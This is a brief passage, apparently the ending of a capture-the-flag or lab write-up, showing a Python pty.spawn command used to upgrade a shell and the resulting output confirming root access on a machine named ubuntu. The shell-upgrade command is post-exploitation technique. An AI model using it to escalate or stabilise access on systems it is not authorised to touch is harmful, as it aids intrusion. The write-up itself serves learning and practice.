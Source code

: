 python3 -c 'import pty;pty.spawn("/bin/bash");'
root@ubuntu:/# id;hostname;date
id;hostname;date
id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
ubuntu
Fri Aug 20 03:44:07 PDT 2021
root@ubuntu:/#
{% endhighlight %}

And that's the end of that.
